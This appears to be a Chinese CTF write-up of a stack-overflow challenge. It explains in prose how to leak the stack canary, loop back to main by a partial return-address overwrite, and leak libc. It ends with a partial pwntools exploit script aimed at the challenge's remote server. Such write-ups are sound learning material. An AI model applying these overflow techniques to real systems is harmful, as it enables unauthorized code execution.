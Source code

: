 通过观察，**thinking_note**是存在栈溢出漏洞的，且**notelen**我们可以控制的。利用**thinking_note**进行栈溢出，每次利用第一个**read**和**puts**获取一个值，第二个**read**恢复栈并跳回**main**函数进行下次攻击

```
 memset(thinking_note, 0, 0x258uLL);
 __isoc99_scanf("%d", &note_len);
 read(0, thinking_note, (unsigned int)note_len);
 read(0, thinking_note, 0x270uLL);
```

因为这题存在Canary保护，故第一次肯定为泄露Canary的值，观察下列汇编代码

```c
.text:0000000000000AA0                 push    rbp
.text:0000000000000AA1                 mov     rbp, rsp
.text:0000000000000AA4                 sub     rsp, 4F0h
.text:0000000000000AAB                 mov     rax, fs:28h
.text:0000000000000AB4                 mov     [rbp-8], rax
.text:0000000000000AB8                 xor     eax, eax
```

我们不难得出若要泄露**Canary**地址应构造：**"A" * 0x258**，**Canary**的最低位通常是**0x00**，所以要将其覆盖（**puts**函数遇到**0x00**会停止），故最后应构造： **"A" * 0x258+"B"**

通过查看IDA可知**main**函数的相对地址为**0x0D20**，因为当**vul**函数执行完毕后需要回到**main**函数，故栈中最后的反回地址应该是**0x0D2E**，故第二次将Canary的值写到对应位置，继续覆盖，最低位变为**0x20**，最后的返回地址从**0D2E**变为**0D20**，这样程序就能返回到**main**函数

第二步读取**vul**的返回地址，第一次写栈到**ebp+8**(**canary**要仍要写到**var_8**对应的位置)，读到返回地址，然后减去**0xD2E**(**IDA**中看到的**vul**的返回地址)

第三步读取**libc**基址,**libc**基址根据**main**函数的返回地址计算,**main**函数在**call vul**之前只有**push rbp**会影响栈，而我们在前两步分别多执行了一次**push rbp**，所以一共是执行了**三**次，那么现在**main**函数返回地址的位置应该和**vul**函数返回地址的位置相差**0x8*4**，也就是**ebp+0x28**

故Exp最终如下

```python
from pwn import *

p = remote("114.116.54.89", 10000)

val_add = 0xd2e
pop_rdi_add = 0xe03
puts_plt_add = 0x8b0
puts_got_add = 0x202018
start_add = 0xd20

print p.recvuntil("path:")
p.sendline("flag")
print p.recvuntil("len:")
p.sendline("1000")
payload = "A" * (0x260-8)+"B"
p.send(payload)
print p.recvuntil("B")
canary = u64(p.recv(7).rjust(8,"\x00"))
print "cancay:", hex(canary)
x = p.recvline()

p.recvuntil("(len is 624)\n")
payload = "A" * (0x260-8) 
payload += p64(canary)
payload += p64(0)
payload += "\x20"
p.send(payload)

print p.recvuntil("path:")
p.sendline("flag")
print p.recvuntil("len:")
p.sendline("1000")
```